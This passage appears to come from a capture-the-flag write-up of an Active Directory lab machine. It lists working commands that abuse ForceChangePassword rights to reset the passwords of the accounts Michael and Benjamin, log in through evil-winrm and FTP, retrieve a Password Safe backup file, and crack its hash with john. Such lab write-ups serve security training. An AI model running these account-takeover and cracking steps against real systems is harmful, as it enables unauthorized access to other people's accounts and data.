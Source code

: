 To do this, we run the next command in the Olvia's session:

```sh
Set-ADAccountPassword -Identity "Michael" -NewPassword (ConvertTo-SecureString "pass123" -AsPlainText -Force) -Reset
```
Looking around in BloodHound we see that Michael is also member of Remote Management Users which allow us to connect via evil-winrm.

```sh
evil-winrm -i 10.10.11.42 -u michael -p pass123
```

![Pic]({{ '/assets/img/administrator/7pic.png' | relative_url }}){: .center-image }

Now in the Michael's node in BloodHound, we see that in the "First Degree Object Control" section Michael has "ForceChangePassword" over Benjamin, which is the same privilege that we have aboused before. If we run the same command over Benjamin, we will change his password.

```sh
Set-ADAccountPassword -Identity "benjamin" -NewPassword (ConvertTo-SecureString "pass123" -AsPlainText -Force) -Reset
```

However, Benjamin is not part of the Remote Management Users group and neither we have the "GenericAll" privilege to add him to the group. But if we check the open ports, we see that ftp is open so we can try to connect.

```sh
ftp 10.10.11.42
> benjamin
> pass123
```

After log in we can see that there is a file called **Backup.psafe3**

![Pic]({{ '/assets/img/administrator/8pic.png' | relative_url }}){: .center-image }

Searching around we see that it is a password manager file also to open this file we need to install [pwsafe](https://github.com/pwsafe/pwsafe/releases?q=non-windows&expanded=true) from the official repo, after downloading the .deb file install it with dpkg.

```sh
dpkg -i passwordsafe-debian12-1.20-amd64.deb
```

And to open it we run:

```sh
pwsafe -r Backup.psafe3
```

![Pic]({{ '/assets/img/administrator/9pic.png' | relative_url }}){: .center-image }

As we dont have the password we can try to crack it using john.

```sh
python3 /usr/share/john/pwsafe2john.py Backup.psafe3 > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
